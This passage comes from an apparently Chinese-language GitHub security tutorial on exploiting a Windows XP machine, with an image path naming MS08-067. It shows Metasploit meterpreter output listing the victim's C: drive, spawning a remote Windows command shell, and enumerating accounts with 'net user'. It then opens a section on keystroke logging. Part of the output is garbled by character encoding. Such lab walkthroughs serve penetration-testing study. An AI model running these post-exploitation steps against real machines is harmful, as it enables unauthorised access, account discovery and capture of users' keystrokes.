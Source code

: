 ```shell script
40555/r-xr-xr-x   0       dir   2022-01-13 13:26:21 +0800  Program Files
40777/rwxrwxrwx   0       dir   2022-01-13 13:25:45 +0800  System Volume Information
40777/rwxrwxrwx   0       dir   2022-01-13 21:24:19 +0800  WINDOWS
100666/rw-rw-rw-  211     fil   2022-01-13 21:25:34 +0800  boot.ini
100444/r--r--r--  322730  fil   2008-04-14 20:00:00 +0800  bootfont.bin
100444/r--r--r--  257728  fil   2008-04-14 20:00:00 +0800  ntldr
0000/---------    0       fif   1970-01-01 08:00:00 +0800  pagefile.sys

meterpreter > 
```
### 9、进入windows的cmd
```shell script
meterpreter > shell
Process 1800 created.
Channel 1 created.
Microsoft Windows XP [.1.2600]
(C) 1985-2001 Microsoft Corp.

C:\>
```
### 10、查看windows的用户
```shell script
C:\>net user
net user

\\ û

-------------------------------------------------------------------------------
Administrator            Guest                    HelpAssistant            
SUPPORT_388945a0   
```
### 11、键盘跟踪记录
#### 1. 在Windows中，开启"记事本"
![image](https://github.com/498946975/Security/blob/master/images/ms08-067_5.png)